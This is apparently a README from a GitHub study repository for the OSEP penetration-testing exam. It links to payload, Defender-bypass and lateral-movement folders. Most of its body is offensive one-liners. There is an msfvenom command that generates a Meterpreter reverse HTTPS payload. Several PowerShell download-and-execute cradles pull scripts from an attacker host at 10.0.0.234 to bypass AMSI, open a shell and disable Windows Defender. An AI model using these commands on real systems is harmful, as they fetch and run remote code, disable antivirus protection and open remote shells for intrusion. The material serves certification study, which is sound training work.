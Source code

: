 # OSEP 
this repository modified based on from `https://github.com/In3x0rabl3/OSEP`

# Summary

This repository will refresh your memory when taking the OSEP exam. 
<br>
Thank you, to everyone who's code was used in this repository.


# Table of Contents

- [OSEP_Reference](https://github.com/In3x0rabl3/OSEP/blob/main/osep_reference.md)
- [OSEP_Checklist](https://github.com/In3x0rabl3/OSEP/blob/main/osep_checklistv2.md)
- [OSEP_Payloads](https://github.com/In3x0rabl3/OSEP/tree/main/Payloads)
- [OSEP_Bypass_Defender](https://github.com/In3x0rabl3/OSEP/tree/main/Bypass_Defender)
- [OSEP_Lateral_Movement](https://github.com/In3x0rabl3/OSEP/tree/main/Lateral_Movement)
- [OSEP_MSSQL](https://github.com/In3x0rabl3/OSEP/tree/main/MSSQL)


# OneKey Bypass Powershell And Get Shell
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.0.0.234 LPORT=443 -f ps1
(New-Object Net.WebClient).DownloadString('http://10.0.0.234:8000/msfvenom_bin/bypass_Ams1_getShell.ps1') | IEX;
```
# OneKey Bypass Posershell AMSI
```
(New-Object Net.WebClient).DownloadString('http://10.0.0.234:8000/bypass_defender/bypassAms1.ps1') | IEX;
```

# OneKey Disable Windows Defender
```
(New-Object Net.WebClient).DownloadString('http://10.0.0.234:8000/bypass_defender/DefendersDeath.ps1') | IEX;
(New-Object Net.WebClient).DownloadString('http://10.0.0.234:8000/bypass_defender/DisableDefender.ps1') | IEX;
+ (need administrator priviledge)
```